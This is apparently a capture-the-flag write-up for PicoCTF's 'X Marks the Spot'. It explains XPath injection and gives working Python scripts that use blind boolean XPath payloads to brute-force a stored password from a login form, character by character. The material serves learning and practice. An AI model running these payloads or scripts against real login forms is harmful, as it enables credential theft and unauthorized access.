



# X Marks the Spot

## Challenge Description:



## Exploitation:

Launching the website gives a login form. 



The site owner claims this to be secure, but lets see. I decided not to trust the owner and try SQLi first and it does throw an error. 

```html
Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

The description already hinted to an injection so I assumed it to be SQLi and tried stabalizing my input by adding comments (`'-- a`), but it still gave the same error. 

So injection is possible but the language used is not SQL. I knew the challenges in PicoCTF LOVE giving subtle hints about the challenge. So I read the challenge info attentively and then it clicked. The `X Marks the Spot` was probably hinting at `XPATH Injection`, another type of injection but in the XML Path Query Language. 

### XPATH Injection Note

Consider an XML document as mentioned below.

```xml
<users>
	<user>
		<username> admin </username>
		<password> password </password>
	</user>
	<user>
		<username> user </username>
		<password> secret </password>
	</user>
</users>
```

There are multiple ways to select nodes within `users`. 

```xml
//user                       # Returns all user nodes; // signifies a descendant
/user/username               # Returns 'username' tag; / signifies direct child
//user[1]                    # Returns the first user (admin)
//user[username='admin']     # Returns only the user whose username is admin
```

So a query would look something like this. 

```xml
//user[username='<input>' and password='<input>']
```

As for a typical injection, the user input is passed directly to the query, which enables XPATH Injection. If the input is something like `admin' or '1'='1` then the query becomes.

```xml
//user[username='admin' or '1'='1' and password='anything_can_go_here']
```

The `or` operator separates the query into 2 parts: The `username='admin'` and the `'1'='1' and password='...'`. In XPATH, the ‘and’ operator has higher precendence than ‘or’, which means ‘and’ is evaluated before ‘or’. If ‘admin’ is a valid username, in boolean this would be equivalent to 

```xml
=> True or (True and False)
=> True or False
=> True
```

thereby logging in as the user “admin”. 

In the challenge’s case, there is no obvious username so I tried admin first. It did not log me in but it did give an encouraging message. 



I assume I was not able to log in because of the wrong username. When I remove the admin, it gives `Login Failure`. Ok so this is **Blind XPATH Injection.** Error or success is not explicitely shown, but depending on if the `username`and `password` parameter are both true, it shows **right path** or **login failed**. 

So this is a **Boolean based Blind XPATH Injection**. 

Then I tried the input `' or '1'='1' or '` . This would make the username true, thereby making the query true. But this too gives the message above.

Since we did not know the username, it was best to enumerate for it first. XPATH has functions like `string-length` and `starts-with` that make this easy. 

Next I passed in `' or string-length(username)>5 or '` to see if the username was greater than 5 characters long. Keep in mind I am guessing the `username` since I dont know what the site creator used in the XML. 

 After messing around with `string-length`, I got the right path message for `string-length(username)<5`. So I kept lowering the number and got the same message for `length<1`. This was probably because the actual XML document uses a different tag name. So when I enumerate on the non-existent tag, its giving me nothing. 

( However, I didnt know this back then and I presumed the following 2 points )

This confused me at first. But on second thought, 2 things were clear. 

1. Since it did not log me in despite the `username` being 0 length, there is probably nothing after the login page. I had assumed the correct password would redirect to an endpoint with the flag. 

2. There must be multiple users, and one of the users’ credentials must be the flag. 

So with this information, I built a script that iterates over users and checks if their password begins with `picoCTF`. It took some trial and error with the requests module. I was providing headers in the request and using `urllib`to parse quotes via `urllib.parse.quotes()`, which messed up the payload.  

`' or //user[position()={i}]/pass[starts-with(text(), 'picoCTF')] or '`

```python
import urllib3, requests

url = "http://wily-courier.picoctf.net:63925/"

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def position_identifier():
    for i in range(1, 20):

        xpath_payload = f"' or //user[position()={i}]/pass[starts-with(text(), 'picoCTF')] or '"
        
        payload = {
            "name": xpath_payload,
            "pass": "a"
        }

        r = requests.post(url, data=payload )
        
        if not "path" in r.text:
            print(f"[-] {i} Failed")
        else:
            print(f"[+] {i} Success")

position_identifier()
```

The script iterates over 20 `user` nodes in the XML, and checks if their `pass` starts with “picoCTF”. Running the scipt gives the output “Success” for the 3rd position. 

```powershell
python .\X_Marks_The_Spot.py
[-] 1 Failed
[-] 2 Failed
[+] 3 Success
...
```

With the position identified, a brute forcing script can be created. The password is not bruteforced directly, but each position in the password is iterated over by alphabets, digits and underscores, to see if the payload returns the “You’re on the right path.” message. If it does, then the alphabet/ digit/ underscore for that position is correct, and the script moves to the next position. 

This is done using the `substring` function in XPATH. It takes 3 arguments: the string, the position to start from, and how many positions to check. 

```python
import urllib3, requests, string, sys

url = "http://wily-courier.picoctf.net:63440/"

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def bruteforcer():
    user_pos = 3
    total = string.ascii_letters + string.digits + "_{}"
    password = ""
    pass_pos = 1

    while True:
        for char in total:
            xpath_payload = f"' or substring(//user[position()={user_pos}]/pass, {pass_pos}, 1) = '{char}' or '"

            payload = {
                "name": xpath_payload,
                "pass": "a"
            }

            r = requests.post(url, data=payload)

            if "path" in r.text:
                password += char
                sys.stdout.write('\r' + password)
                sys.stdout.flush()
                pass_pos += 1
                break

            else:
                sys.stdout.write('\r' + password + char)
                sys.stdout.flush()

        if "}" in password:
            print(password)
            break
            
bruteforcer()
```

After some time the script finishes and the output is:

```python
python .\X_Marks_The_Spot.py
picoCTF{REDACTED}picoCTF{REDACTED}
```

(There are two flags because one of them is from the brute force output and the other is because I printed it again in the `if` statement )

And thats the flag. I underestimated the medium challenges I have done here, and attempted a hard one. Safe to say I wont underestimate other challenges again. 

The entire script (along with position_identifier ) can be found in `script.py`.
